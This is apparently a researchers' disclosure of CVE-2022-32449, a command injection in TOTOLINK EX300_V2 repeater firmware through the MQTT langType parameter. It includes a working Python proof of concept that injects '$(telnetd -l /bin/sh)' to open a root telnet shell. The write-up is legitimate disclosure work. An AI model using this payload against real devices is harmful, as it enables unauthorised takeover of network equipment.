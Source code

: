 # CVE-ID

[CVE-2022-32449](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-32449 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-32449")

# Information

**Vendor of the products:**    TOTOLINK

**Vendor's website:**    [http://www.totolink.cn](http://www.totolink.cn "http://www.totolink.cn")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**    [TOTOLINK EX300_V2](http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=55 "http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=55")

**Affected firmware version:**  V4.0.3c.7484

**Firmware download address:**  [http://www.totolink.cn/data/upload/20210720/b351052836a4fc7e1575dc513afc02b1.zip](http://www.totolink.cn/data/upload/20210720/b351052836a4fc7e1575dc513afc02b1.zip "http://www.totolink.cn/data/upload/20210720/b351052836a4fc7e1575dc513afc02b1.zip")

# Overview

`TOTOLINK EX300_V2 V4.0.3c.7484` has a command injection vulnerability detected at function `setLanguageCfg`. Attackers can send a `MQTT` data packet and inject evil commands into parameter `langType` to execute arbitrary commands.

# Show the product

`TOTOLINK EX300_V2` is a Wi-Fi repeater made in China.

![image](https://github.com/winmt/CVE/blob/main/TOTOLINK%20EX300_V2/pic/0.jpg)

# Vulnerability details

The vulnerability is detected at `/bin/cste_modules/global.so`.

In the function `setLanguageCfg`, the content obtained by program through parameter `langType` given by `MQTT` data packet is passed to variable `Var`. Then, the variable `Var` is formatted into `v9` through the function `sprintf` without any check. Finally, `v9` is passed as an argument to the function `CsteSystem` which can execute system commands.

![image](https://github.com/winmt/CVE/blob/main/TOTOLINK%20EX300_V2/pic/1.jpg)

Above all, attackers can send a `MQTT` data packet and inject evil commands into parameter `langType` to execute arbitrary commands.

# POC

```python
import paho.mqtt.client as mqtt

client = mqtt.Client()
client.connect("192.168.0.254", 1883, 60)
client.publish("totolink/router/setLanguageCfg", '{"langType": "$(telnetd -l /bin/sh)"}')
```

# Get shell

At first, we run the above script to exploit the vulnerability.

Then, we scan ports and dectect that the port `23` which represents `Telnet service` has been opened.

![image](https://github.com/winmt/CVE/blob/main/TOTOLINK%20EX300_V2/pic/2.jpg)

Finally, we telnet into the Wi-Fi repeater through port `23` and control it successfully.

![image](https://github.com/winmt/CVE/blob/main/TOTOLINK%20EX300_V2/pic/3.jpg)
